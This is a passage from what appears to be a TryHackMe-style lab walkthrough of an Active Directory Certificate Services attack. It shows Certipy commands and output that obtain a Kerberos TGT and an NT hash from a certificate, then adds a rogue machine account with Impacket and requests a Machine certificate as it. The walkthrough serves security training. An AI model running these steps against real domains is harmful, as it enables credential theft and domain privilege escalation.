 **Note: If you get a timeout error for this command or any of the rest of the Certipy commands, just wait two seconds and then run it again. Unfortunately, with a UDP VPN connection, it is not always sufficiently stable for these requests to pass through.**

We can verify that this certificate is valid and can be used for Kerberos authentication through Certipy as well:

```
(certipy) [thm@thm]$ certipy auth -pfx thm.pfx
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: thm@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thm.ccache'
[*] Trying to retrieve NT hash for 'thm'
[*] Got NT hash for 'thm@lunar.eruca.com': 43460d636f269c709b20049cee36ae7a
```

Certipy performs authentication with the certificate and uses Impacket to recover the NTLM hash associated with the UPN specified in the certificate. We could, of course, use something like [Rubeus](https://github.com/GhostPack/Rubeus) to request a TGT and then import that with [Mimikatz](https://github.com/gentilkiwi/mimikatz) for attacks, but this at least proves that the certificate is valid and can be used for Kerberos authentication.

### Adding a Computer to the Domain

We need to add a new computer to the domain to generate a Machine certificate. Luckily, we don’t have to add a physical computer to the network. We can use Impacket’s [addcomputer.py script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py) to simply make it look like we are adding a new computer:

```
(certipy) [thm@thm]$ addcomputer.py 'lunar.eruca.com/thm:Password1@' -method LDAPS -computer-name 'THMPC' -computer-pass 'Password1@'
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account THMPC$ with password Password1@.
```

Parameters explained:

* **`lunar.eruca.com/thm:Password1@`** - We need to provide valid AD credentials in order to add a new computer.
* **method** - The method of authentication. LDAPS will interface with the LDAP service on the domain controller.
* **computer-name** - The name of our computer. This can be anything we like, as long as it is not the same as an existing computer object.
* **computer-pass** - The password associated with our computer’s machine account. We will need to impersonate this computer that we create, so make note of the password you chose here.

First, let’s generate a certificate for the new computer we created. To use the machine account of said computer, you need to add a “$” at the end of the name:

```
(certipy) [thm@thm]$ certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 20
[*] Got certificate with DNS Host Name 'THMPC.lunar.eruca.com'
[*] Saved certificate and private key to 'thmpc.pfx'
```
